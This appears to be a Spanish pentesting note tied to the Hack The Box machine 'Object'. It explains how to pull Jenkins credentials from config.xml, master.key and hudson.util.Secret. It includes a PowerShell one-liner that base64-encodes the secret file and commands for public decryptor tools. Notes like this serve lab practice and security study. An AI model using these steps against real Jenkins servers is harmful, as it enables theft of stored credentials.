 ## DESCRIPTION

JENKINS guarda información muy interesante en los ficheros `config.xml`, de hecho se puede encontrar la contraseña codificada, que se puede desencriptar.

`C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\<<USUARIO>>`

Para que sea posible desencriptarlo, se necesita tambien `master.key` and `hudson.util.Secret`, but from `/secrets/`.
#### Mas información
* https://0xdf.gitlab.io/2022/02/28/htb-object.html#jenkins-enumeration

## EXPLOITATION

1. Tenemos que encontrar el fichero `config.xml`
![[Pasted image 20230314200635.png]]
![[Pasted image 20230314200757.png]]


2. Obtenemos `master.key` and `hudson.util.Secret` from `C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets`
![[Pasted image 20230314201023.png]]
**!!NOTA IMPORTANTE!!** Para pasar el fichero hudson puedes usar base64 y luego descodificarlo

```
powershell -c [convert]::ToBase64String((cat ..\..\secrets\hudson.util.Secret -Encoding byte))
```

3. Descargamos el decripter https://github.com/hoto/jenkins-credentials-decryptor

```
./jenkins%2Dcredentials%2Ddecryptor%20%2Dm%20master.key%20%2Ds%20hudson.util.Secret%20%2Dc%20config.xml
```

**!!NOTA IMPORTANTE!!** 
	Para ver como se instala mirar: https://0xdf.gitlab.io/2022/02/28/htb-object.html#jenkins-enumeration

3. Tambien se puede usar el de python: https://github.com/gquere/pwn_jenkins que funciona bien.

```
python jenkins_offline_decrypt.py master.key hudson.util.Secret config.xml
```

**!!NOTA IMPORTANTE!!** 
	Para ver como se instala mirar: https://0xdf.gitlab.io/2022/02/28/htb-object.html#jenkins-enumeration

## MACHINES

* Hack The Box: Object

**!!NOTA IMPORTANTE!!** 